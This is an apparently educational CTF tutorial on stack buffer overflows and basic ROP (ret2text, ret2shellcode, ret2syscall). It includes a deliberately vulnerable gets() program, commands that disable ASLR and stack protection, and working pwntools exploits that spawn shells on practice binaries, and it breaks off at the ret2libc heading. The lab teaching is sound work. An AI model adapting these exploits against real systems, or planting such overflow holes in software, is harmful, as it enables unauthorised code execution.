# Stack Overflow

Author: H3rmesk1t

Data: 2022-2-13

# Stack introduction
## Basic stack introduction
A stack is a data structure that comes first in (LIFO) with only two operations: push and pop. Each program has a virtual address space during its operation, and a part of it is the corresponding stack of the program, which is used to save function call information and local variables. It should be noted that the program's stack grows from the high address of the process address space to the low address.

<div align=center></div>

## Function call stack
During the running of the program, there is an area in the memory used to implement the function calling mechanism of the program. This area is a `LIFO` data structure area, which we usually call its function stack. Each unexited function has a data area in the function stack, that is, the function stack frame. In the function call stack frame, some important information about the corresponding function is stored: local variables used in the function, function parameters, and some data required to maintain the function stack, such as the `EBP` pointer (the call stack frame pointing to the "parent function"), the return address of the function, etc.


Here we understand it by debugging the code, the sample code is as follows:

```c++
#include <iostream>

int add(int num) {
    int temp = 2;
    return num + temp;
}

int main() {
    int num = 1;
    std::cout << add(num) << std::endl;
    return 0;
}
```

<div align=center></div>

<div align=center></div>

Here is a register diagram. It should be noted that there are certain differences between `32` and `64` bit programs:
 - x86
    - Function parameters are on the function return address.
 - x64:
    - The memory address cannot be greater than `0x00007FFFFFFFFFFFFF`, `6` byte length, otherwise an exception will be thrown.
    - The first six integer or pointer parameters in `System V AMD64 ABI` (used by Linux, FreeBSD, macOS, etc.) are saved in `RDI`, `RSI`, `RDX`, `RCX`, `R8` and `R9` registers in turn, and will be saved on the stack if there are more parameters.

<div align=center></div>

Among them, common registers are:
 - Data registers: EAX (accumulator), EBX (base address register), ECX (counter), EDX (used to place the remainder generated by integer division)
 - Index and pointer registers: ESI (source index register), EDI (destination index register)
 - Pointer Register: ESP (stack pointer register - it stores a pointer that always points to the top of the top of the system stack), EBP (base pointer register - it stores a pointer that always points to the bottom of the top of the system stack)


# Stack Overflow principle
## introduce
Stack overflow refers to the number of bytes written by a program to a variable in the stack that exceeds the number of bytes applied by the variable itself, which causes the value of the variable in the adjacent stack to be changed. This problem is a specific buffer overflow vulnerability, similar to heap overflow, `bss` segment overflow and other overflow methods. Stack overflow vulnerabilities can easily crash the program at the very least, and at the worst, they can allow the attacker to control the program execution process.

In addition, the basic premise for stack overflow is:
 - The program must write data to the stack.
 - The data size written by the program to the stack is not well controlled.

## Example
In the stack overflow vulnerability, the most typical vulnerability exploit is to overwrite the return address of the program to the address controlled by the attacker. Of course, the segment where this address is located must have executable permissions. The following is a simple example to illustrate, the example code is as follows:

```c++
#include<stdio.h>
#include<string.h>

void success() {
	puts("Successfully, you have already controlled this system!");
	system("/bin/bash");
}

void vulnerable() {
	char data[10];
	gets(data);
	puts(data);
	return;
}

int main(int argc, char **argv) {
	vulnerable();
	return 0;
}
```

The main purpose of the above program is to read a string and output it, while we hope to control the program to execute the `success` function. Compile the sample code:

```bash
gcc -m32 -fno-stack-protector -no-pie example.c -o example

explanation:
    -m32: Generate 32-bit program.
    -fno-stack-protector: If stack overflow protection is not enabled, no canary is generated.
    -no-pie: Avoid the loading base address being disrupted. Different gcc versions have different default configurations for PIE. You can use the command gcc -v to view the default switching situation.
```

<div align=center></div>

In the above compilation results, we can see that `gets` itself is a dangerous function (never check the length of the input string, but uses carriage return to determine whether the input ends), so it is easy to cause stack overflow.

The above mentioned PIE protection during compilation is actually a mechanism of address space distribution randomization (ASLR) under the Linux platform. Even if the executable file is enabled, the system needs to enable `ASLR` to truly disrupt the base address. Otherwise, the program will still load a fixed base address when it is running (but it is different from the base address when No PIE). You can control whether the `ASLR` is started by modifying `/proc/sys/kernel/randomize_va_space`. The specific options are:
 1. Close `ASLR`. There is no randomization, the base addresses of stack, heap, and `.so` are the same every time.
 2. Ordinary `ASLR`. Stack base address, `mmap` base address, and `.so` load base address will all be randomized, but the heap base address is not randomized.
 3. Enhanced `ASLR`. Added heap base address randomization based on ordinary `ASLR`.

According to the above options, you can use `echo 0 > /proc/sys/kernel/randomize_va_space` to turn off the `ASLR` of the `Linux` system, and similarly, you can configure the corresponding parameters.

After the compilation is successful, use the tool `checksec` to check the compiled files, and you can see that both stack overflow and `PIE` protection are closed.

<div align=center></div>

Use `IDA` to decompile the binary program and view the `vulnerable` function.

<div align=center></div>

In the `vulnerable` function, the length of the string distance from `ebp` is `0x12`, so the corresponding stack structure is:

```text
                                        +-----------------------+
                                        | retaddr |
                                        +-----------------------+
                                        | saved ebp |
                                ebp--->+-------------------------+
                                        | |
                                        | |
                                        | |
                                        | |
                                        | |
                                        | |
                        data,ebp-0x16-->+-----------------+
```

And, we can obtain the address of `success` through `IDA`, which is `0x080491B6`.

<div align=center></div>

Then if the string we read is `0x12*'a'+'bbbb'+success_addr`, since `gets` will read after the carriage return is counted, we can directly read all strings, and overwrite `saved ebp` with `bbbb` and overwrite `retaddr` with `success_addr`. The stack structure at this time is:

```text
+-----------------------+
                                        | 0x080491B6 |
                                        +-----------------------+
                                        | bbbb |
                                ebp--->+-------------------------+
                                        | |
                                        | |
                                        | |
                                        | |
                                        | |
                                        | |
                        data,ebp-0x16-->+-----------------+
```

According to the above analysis, you can start to construct the corresponding `exploit`. One thing to note here is that each value in computer memory is stored in bytes. Generally, small-endian storage is used, that is, `0x080491B6` in memory is `\xb6\x91\x04\x08`. `exploit` is as follows:

```python
# coding=utf-8
from pwn import *

# Construct an object that interacts with the program
p = process('./example')
success_addr = 0x080491B6

# Construct Payload
# payload = 'a' * 0x16 + p32(success_addr)
payload = 'a' * 0x12 + 'bbbb' + p32(success_addr)

# Send Payload
p.sendline(payload)

# Change code interaction to manual interaction
p.interactive()
```

Execute `exploit`, and you can see that the `success` function has been successfully executed.

<div align=center></div>

## Summarize
### Find dangerous functions
By looking for hazard functions, you can quickly determine whether a program may have stack overflow, and if it exists, where the stack overflow is located. Common hazard functions are as follows:
 - Input
   - gets
   - scanf
   - vscanf
 - Output
   - sprintf
 - String
   - strcpy
   - strcat
   - bcopy

### Determine the fill length
This part mainly calculates the distance between the address we want to operate and the address we want to cover. A common method of operation is to turn on `IDA` and calculate the offset based on its given address.

Generally speaking, variables have the following index patterns:
 - The index relative to the stack base address can be obtained directly by viewing the relative offset of `EBP`.
 - The index corresponding to the top-stack pointer generally needs to be debugged, and it will still be converted to the first type later.
 - Direct address index is equivalent to giving the address directly.

Generally speaking, there will be the following coverage requirements:
 - Overwrite the return address of the function, then just look at `EBP`.
 - Overwrite the contents of a variable on the stack.
 - Overwrite the contents of a variable in the `bss` segment.
 - Overwrite the content of a specific variable or address based on actual execution.

# Basic ROP
With the opening of `NX` protection, it was difficult to continue to work by directly injecting code into the stack or heap in the past. Attackers also proposed corresponding methods to bypass protection. The main idea is to use existing small fragments (gadgets) in the program to change the values ​​of certain registers or variables on the basis of stack buffer overflow, thereby controlling the execution process of the program. The so-called `gadgets` is an instruction sequence ending with `ret`. Through these instruction sequences, we can modify the content of certain addresses to facilitate the control of the execution process of the program.

The reason why it is called `ROP` is because the core lies in using the `ret` instructions in the instruction set to change the execution order of the instruction stream. `ROP` attacks generally meet the following conditions:
 - There is an overflow in the program and the return address can be controlled.
 - The address of the `gadgets` that meet the conditions and the corresponding `gadgets` can be found.

If the address of `gadgets` is not fixed every time, then we need to find a way to dynamically obtain the corresponding address.

## ret2text
### Principle
`ret2text` is the code (.text) that controls the program execution existing code (.text). In fact, this attack method is a general description. When we control the existing code of the program, we can also control the program to execute several pieces of existing code of the program that is not adjacent (that is, `gadgets`). This is what we want to call `ROP`. At this time, we need to know the location of the corresponding returned code. Of course, the program may also enable certain protections, and we need to find a way to bypass these protections.

### example
Program download link: [ret2text](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text).

First, check the program's protection mechanism. You can see that this is a `32`bit program, and the stack is unexecutable protection is opened.

<div align=center></div>

Use `IDA` to view the source code. The program uses the `gets` function in the main function, and there is obviously a stack overflow vulnerability.

<div align=center></div>

In the `secure` function, we found the code that calls `system("/bin/sh")`. At this point, the attack logic is basically clear. We directly control the program to return to `0x0804863A`, and then we can get the system's `shell`.

<div align=center></div>

The following is the problem of determining the fill length to construct the `payload`. The first thing we need to determine is the starting address of the memory that we can control is the number of bytes of the return address of the `main` function.

<div align=center></div>

You can see that the string passes the index relative to `esp`, so we need to debug it, and put the breakpoint at `call`, and check `esp`, `ebp`.

<div align=center></div>

You can see that `esp` is `0xff805d70`, `ebp` is `0xff805df8`, and the index of `s` relative to `esp` is `esp+0x1c`, so we can infer:
 - The address of `s` is `0xff805d8c`
 - The offset of `s` to `ebp` is `0xff805df8-0xff805d8c`, that is `0x6c`.

`exploit` is as follows:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2text')
shell_addr = 0x0804863A
payload = 'a' * (0x6c+4) + p32(shell_addr)
sh.sendline(payload)
sh.interactive()
```

<div align=center></div>

## ret2shellcode
### Principle
`ret2shellcode` means controlling the program to execute `shellcode` code. `shellcode` refers to assembly code used to complete a certain function. The common function is mainly to obtain the `shell` of the target system. Generally speaking, `shellcode` needs to be filled by ourselves. This is actually another typical method of utilization. At this time, we need to fill some executable code by ourselves.

On the basis of stack overflow, to execute `shellcode`, the corresponding `binary` is required at runtime, and the area where `shellcode` is located has executable permissions.

### example
Program download link: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode).

First, check the program's protection mechanism. You can see that this is a `32`bit program. The source program has almost no protection enabled, and has readable, writable, and executable segments.

<div align=center></div>

Use `IDA` to view the source
Code, the program is still a basic stack overflow vulnerability, but this time it also copied the corresponding string to `buf2`. A simple look shows that `buf2` is in the `bss` section.

<div align=center></div>

<div align=center></div>

At this time, we simply debug the program and see if this `bss` segment is executable. Through `vmmap`, we can see that the segment corresponding to the `bss` segment has executable permissions.

<div align=center></div>

Then this time we control the program to execute `shellcode`, that is, read in `shellcode`, and then control the program to execute `shellcode` at the `bss` section.

<div align=center></div>

`exploit` is as follows:

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

## ret2syscall
### Principle
`ret2syscall`, that is, the control program execution system call to obtain `shell`.

System calls:
 - Programming interface provided by the operating system to users.
 - is an interface that provides access to the underlying hardware managed by the operating system.
 - Essentially some kernel function code that drives hardware in a standardized way.
 - `x86` makes system calls through the `int 0x80` instruction, `amd64` makes system calls through the `syscall` instruction`mov eax, 0xb mov ebx, ["/bin/sh"] mov ecx, 0 mov edx, 0 int 0x80 => execve("/bin/sh",NULL,NULL)`.

<div align=center></div>

### example
Program download link: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bambofox-ret2syscall/rop).

First, check the program protection mechanism. You can see that this is a `32`bit program, with `NX` protection enabled.

<div align=center></div>

Use `IDA` to view the source code, and you can see that this time is still a stack overflow. Similar to the previous practice, the offset of `v4` relative to `ebp` can be obtained by obtaining `108`, so the offset of the return address that needs to be covered is `112` relative to `v4`. Since you cannot directly use a piece of code in the program or fill in the code yourself to obtain `shell`, so you use `gadgets` in the program to obtain `shell`, and the corresponding `shell` acquisition is to use system calls. [Knowledge of system calls] (https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8).

<div align=center></div>

Simply put, as long as the parameters of the corresponding system call that obtains the `shell` are placed in the corresponding register, then the corresponding system call can be executed after executing `int 0x80`. For example, here we use the following system call to obtain the `shell`: `execve("/bin/sh",NULL,NULL)`

Among them, the program is `32` bit, so it is necessary to make:
 - The system call number, i.e. `eax` should be `0xb`.
 - The first parameter, that is, `ebx` should point to the address of `/bin/sh`, and in fact, the address of `sh` is also OK.
 - The second parameter, that is, `ecx` should be `0`.
 - The third parameter, that is, `edx` should be `0`.

Here we explain why the `eax` parameter is `0xb`. In the `execve.c` file `_syscall3(int,execve,const char *,file,char **,argv,char **,envp)`, where `_syscall3` is a macro, expand it as follows:

```c++
int execve(const char * file,char ** argv,char ** envp) \
{ \
long __res; \
__asm__ volatile ("int $0x80" \
	: "=a" (__res) \
	: "0" (__NR_execve),"b" ((long)(file)),"c" ((long)(argv)),"d" ((long)(envp))); \
if (__res>=0) \
	return (int) __res; \
errno=-__res; \
return -1; \
}
```

You can see that `execve` is essentially a system call `int 0x80` (similar to the trigger of a soft interrupt), and the system call number is `__NR_execve` assigned in `eax`. The passed parameters are `file`, `argv`, and `envp` are passed in by `ebx`, `ecx`, and `edx` registers respectively. `__NR_execve` is defined in `/usr/include/asm/unistd_32.h` or `/usr/include/asm/unistd_64.h`, with values ​​of `11` and `59` respectively, which are the index values ​​of `sys_call_table` (used to find the corresponding system call function sys_execve in this table).

<div align=center></div>

To find out the specific method of `gadgets`, you can use the [ropgadgets](https://github.com/JonathanSalwan/ROPgadget) tool.

First, let’s look for gadgets that control `eax`. You can see that there are several in the figure below that can control `eax`. Here we select the second one as `gadgets`.

<div align=center></div>

Next, look for `gadgets` of `ebx`. You can see that the `gadgets` marked in the figure below can directly control the three registers `ebx`, `ecx`, and `edx`.

<div align=center></div>

Then you need to obtain the address corresponding to the `/bin/sh` string.

<div align=center></div>

Finally get the address of `int 0x80`.

<div align=center></div>

`exploit` is as follows:

```python
# coding=utf-8
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x080be408

# flat module can combine pattern strings and addresses and convert them to byte mode
payload = flat(['a' * 0x70, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

<div align=center></div>

## ret2libc
### Principle
